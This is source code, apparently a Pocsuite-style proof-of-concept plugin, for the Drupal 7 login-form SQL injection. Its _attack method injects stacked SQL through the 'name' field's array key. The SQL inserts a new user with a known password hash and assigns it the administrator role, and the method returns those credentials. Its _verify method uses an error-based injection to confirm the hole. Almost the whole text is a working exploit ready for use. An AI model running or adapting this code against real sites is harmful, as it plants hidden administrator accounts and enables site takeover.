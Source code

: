 ```

    def _attack(self):
        result = {}
        vul_url = '%s/?q=node&destination=node' % self.url
        uid = int(random.random() * 1000)
        username = ''.join(random.sample(string.letters+string.digits, 5))
        payload = OrderedDict()

        if not self._verify(verify=False):
            return self.parse_attack(result)

        payload['name[0;insert into users(uid, name, pass, status, data) values (%d, \'%s\', ' \
                '\'$S$DkIkdKLIvRK0iVHm99X7B/M8QC17E1Tp/kMOd1Ie8V/PgWjtAZld\', 1, \'{b:0;}\');' \
                'insert into users_roles(uid, rid) values (%d, 3);#]' % (uid, username, uid)] \
                 = 'test'
        payload['name[0]'] = 'test2'
        payload['pass'] = 'test'
        payload['form_id'] = 'user_login_block'

        #print urllib.urlencode(payload)
        response = req.post(vul_url, data=payload)
        if response.status_code == 200:
            result['AdminInfo'] = {}
            result['AdminInfo']['Username'] = username
            result['AdminInfo']['Password'] = 'thanks'

        return self.parse_attack(result)

    def _verify(self, verify=True):
        result = {}
        vul_url = '%s/?q=node&destination=node' % self.url
        payload = {
            'name[0 and (select 1 from (select count(*),concat((select md5(715890248' \
                '135)),floor(rand(0)*2))x from  information_schema.tables group by x' \
                ')a);;#]': 'test',
            'name[0]': 'test2',
            'pass': 'test',
            'form_id': 'user_login_block',
        }

        response = req.post(vul_url, data=payload).content
        if 'e4f5fd37a92eb41ba575c81bf0d31591' in response:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo']['Payload'] = urllib.urlencode(payload)

        return self.parse_attack(result)

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output

register(TestPOC)

```
